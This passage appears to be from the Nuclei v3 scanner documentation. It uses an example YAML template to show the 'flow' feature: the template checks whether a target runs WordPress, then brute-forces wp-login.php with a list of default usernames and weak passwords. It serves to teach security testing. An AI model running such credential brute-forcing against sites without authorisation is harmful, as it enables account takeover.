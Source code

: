 With addition of flow in Nuclei v3 we can re-write this template to first check if target is a wordpress site, if yes then bruteforce login with default credentials and this can be achieved by simply adding one line of content  i.e `flow: http("check-wp") && http("bruteforce")`  and nuclei will take care of everything else.

```yaml
id: wordpress-bruteforce
info:
  name: WordPress Login Bruteforce
  author: pdteam
  severity: high

flow: http("check-wp") && http("bruteforce")

http:
  - id: check-wp
    method: GET
    path:
      - "{{BaseURL}}/wp-login.php"
    
    matchers:
        - type: word
            words:
            - "WordPress"
            part: body
        - type: word
            words:
            - "wp-content"
            part: body
    matchers-condition: and

  - id: bruteforce
    method: POST
    path:
      - "{{BaseURL}}/wp-login.php"
    payloads:
      username:
        - admin
        - guest
        - testuser
      password:
        - password123
        - qwertyuiop
        - letmein
    body: "log=§username§&pwd=§password§&wp-submit=Log+In"
    attack: clusterbomb 
    matchers:
      - type: word
        words:
          - "ERROR"
        part: body
        negative: true
```
**Note:**  this is just a example template with poor matchers. refer 'nuclei-templates' repo for final template
